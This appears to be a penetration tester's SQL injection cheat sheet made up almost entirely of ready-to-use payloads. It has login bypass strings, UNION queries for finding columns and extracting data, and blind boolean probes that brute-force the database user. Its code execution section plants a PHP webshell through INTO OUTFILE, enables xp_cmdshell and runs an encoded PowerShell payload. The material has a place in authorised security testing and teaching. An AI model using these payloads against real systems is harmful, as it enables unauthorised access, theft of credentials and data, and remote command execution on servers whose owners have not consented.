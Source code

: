 #### Authentication Bypass

```
#Standard auth bypass will log in as the first user in the database table.
' OR 1=1 -- //

#Select all data from table users.
' OR 1=1 in (SELECT * FROM users) -- //

#Select all passwords from table users.
' or 1=1 in (SELECT password FROM users) -- //

#Select password from username admin. 
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```
#### Union Injection
1. Enter SQLi characters to try and get a server error indicating a potential vulnerability.
2. Enter a UNION SQLi payload to try and get the server to respond with an error indicating the columns selected is wrong.
3. Continue to add a NULL column to each payload until it is accepted by the server with no error response.

```
#Identify how many columns returned in query.
'UNION SELECT NULL-- //
'UNION SELECT NULL,NULL-- //
'UNION SELECT NULL,NULL,NULL-- //

#Identify which columns can return string data.
'UNION SELECT 'a',NULL,NULL,NULL-- //

#Extract data.
'UNION SELECT <column>, <column>, FROM table -- //
```
#### Code Execution

```
#Upload a shell.
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //

#Enable xp_cmdshell on sql server 2005
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

#Execute Commands
' EXEC xp_cmdshell 'powershell -E <base64_payload>'; --
' EXEC xp_cmdshell "net user";
```

##### Blind Boolean SQLi
```
#Validating SQL query manipulation is possible
1=1
1=2
1=1+AND+1=1
1=1+AND+1=2

#can we do sub queries?
1=1+AND(1=1)AND+1=1
1=1+AND(1=2)AND+1=1

#strings ok?
1=1+AND('1'='1')AND+1=1

#accepts wild card? (%25 = % encoded)
1=1+AND('1'+like+'%25')AND+1=1

#check reserved key words / columns 
1=1+AND(CURRENT_USER+like+'%25')AND+1=1

#Start to bruteforce alphabet to get the first value in that column use lower case and upper case as well as numbers and underscore.
1=1+AND(CURRENT_USER+like+'$intruder$%25')AND+1=1 
```